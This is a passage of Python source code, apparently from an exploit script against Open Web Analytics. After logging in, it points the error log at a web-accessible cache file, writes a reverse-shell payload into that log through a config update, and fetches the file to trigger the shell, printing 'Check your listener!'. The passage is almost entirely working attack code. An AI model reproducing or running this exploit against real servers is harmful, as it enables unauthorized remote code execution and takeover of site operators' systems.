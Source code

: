 ```
except Exception as e:
   print_message('An error occurred during the login attempt!', "ERROR")
   print(e)
   exit()
else:
   print_message('Logged in as "' + username + '" user', "SUCCESS")

nonce = get_update_nonce(update_config_url)

try:
   log_location = "/var/www/html/owa/owa-data/caches/" + shell_filename
   data = {
      "owa_nonce": nonce, 
      "owa_action": "base.optionsUpdate", 
      "owa_config[base.error_log_file]": log_location, 
      "owa_config[base.error_log_level]": 2
   }
   session.post(update_config_url, data=data, proxies=proxies)
except Exception as e:
   print_message('An error occurred when attempting to update config!', "ERROR")
   print(e)
   exit()
else:
   print_message('Creating log file', "INFO")

nonce = get_update_nonce(update_config_url)

try:
   data = {
      "owa_nonce": nonce, 
      "owa_action": "base.optionsUpdate", 
      "owa_config[shell]": reverse_shell 
   }
   session.post(update_config_url, data=data, proxies=proxies)
except Exception as e:
   print_message('An error occurred when attempting to update config!', "ERROR")
   print(e)
   exit()
else:
   print_message('Wrote payload to log file', "INFO")

try:
   session.get(shell_url, proxies=proxies)
except Exception as e:
   print(e)
else:
   print_message('Triggering payload! Check your listener!', "SUCCESS")
   print_message('You can trigger the payload again at "' + shell_url + '"' , "INFO")
```  
  
  